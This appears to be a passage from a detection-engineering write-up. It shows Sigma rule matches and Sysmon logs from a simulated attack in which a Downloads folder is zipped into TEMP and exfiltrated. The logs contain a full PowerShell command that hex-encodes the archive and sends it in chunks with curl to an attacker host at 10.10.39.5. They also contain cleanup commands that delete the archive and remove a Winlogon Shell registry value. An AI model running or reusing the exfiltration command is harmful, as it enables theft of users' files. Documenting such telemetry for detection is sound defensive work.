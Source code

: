 Aurora Agent: Rule Matched:

```
1. Sigma rule match found: Folder Compress To Potentially Suspicious Output Via Compress-Archive Cmdlet
		Match_Strings: 'Compress-Archive -Path $env:USERPROFILE\\Downloads -DestinationPath $env:TEMP' in CommandLine
2. Sigma rule match found: Zip A Folder With PowerShell For Staging In Temp - PowerShell 
		Match_Strings: 'Compress-Archive -Path $env:USERPROFILE\\Downloads -DestinationPath $env:TEMP' in Data
		
```

### Exfiltration: Exfiltrating Hex-Encoded Data Chunks over HTTP

Sysmon Log: Process Creation

```
UtcTime 2025-03-31 10:53:31.707 
  ProcessGuid {c5d2b969-742b-67ea-4c01-000000002901} 
  ProcessId 1052 
  Image C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe 
  OriginalFileName PowerShell.EXE 
  CommandLine powershell.exe -ExecutionPolicy Bypass -C "$file=\"$env:TEMP\exfil.zip\"; $destination=\"http://10.10.39.5:8080/\"; $bytes=[System.IO.File]::ReadAllBytes($file); $hex=($bytes|ForEach-Object ToString X2) -join ''; $split=$hex -split '(\S{20})' -ne ''; ForEach ($line in $split) { curl.exe \"$destination$line\" } echo \"Done exfiltrating the data. Check your listener.\"" 
  ParentProcessId 5464 

```

Process Creation. All the next 23 Curl.exe Process execution is to exfiltrate the file

<img width="855" height="683" alt="image" src="https://github.com/user-attachments/assets/5030c297-9e03-423a-9fb0-5df30d7eb79e" />

Then, 23 network connections are made to the attacker's machine

<img width="838" height="699" alt="image" src="https://github.com/user-attachments/assets/8b076001-c8c5-4136-ae73-993c3b9523dc" />

After the exfiltration is done, the cleanup command is executed

```
UtcTime 2025-03-31 10:55:12.814 
  ProcessId: 5116 
  Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe 
  OriginalFileName: PowerShell.EXE 
  CommandLine: powershell.exe -ExecutionPolicy Bypass -C "Remove-Item -Path $env:TEMP\exfil.zip -ErrorAction Ignore" 
  ParentProcessId: 5464 
  
```

**Process Creation:**

```
 UtcTime 2025-03-31 10:55:13.917 
  ProcessGuid {c5d2b969-7491-67ea-6501-000000002901} 
  ProcessId 5824 
  Image C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe 
  OriginalFileName PowerShell.EXE 
  CommandLine powershell.exe -ExecutionPolicy Bypass -C "Remove-ItemProperty -Path \"HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\\\" -Name \"Shell\" -Force -ErrorAction Ignore" 
  ParentProcessId 5464 

```
